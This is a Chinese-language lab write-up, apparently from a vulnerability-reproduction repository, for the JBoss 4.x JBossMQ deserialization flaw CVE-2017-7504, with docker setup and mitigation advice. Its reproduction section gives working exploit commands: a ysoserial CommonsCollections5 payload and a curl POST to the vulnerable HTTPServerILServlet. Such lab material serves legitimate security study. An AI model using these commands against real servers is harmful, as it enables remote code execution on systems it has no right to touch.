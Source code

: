# JBoss 4.x JBossMQ JMS 反序列化漏洞 (CVE-2017-7504)

## 漏洞详情

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。



## 影响版本

JBoss AS 4.x及之前版本



## 环境搭建

```
cd jboss/CVE-2017-7504
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`



## 漏洞复现

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，我们借助ysoserial的CommonsCollections5利用链来复现。生成Payload

```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections5 "touch /tmp/success" > poc.ser
```

我们将`poc.ser`文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @poc.ser
```

![img](images/JBoss%204.x%20JBossMQ%20JMS%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-7504).assets/1.png)



## 漏洞分析

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。



## 防御与修复

1. 将JBoss版本升级到最新
2. 尽量不要将JBoss映射到公网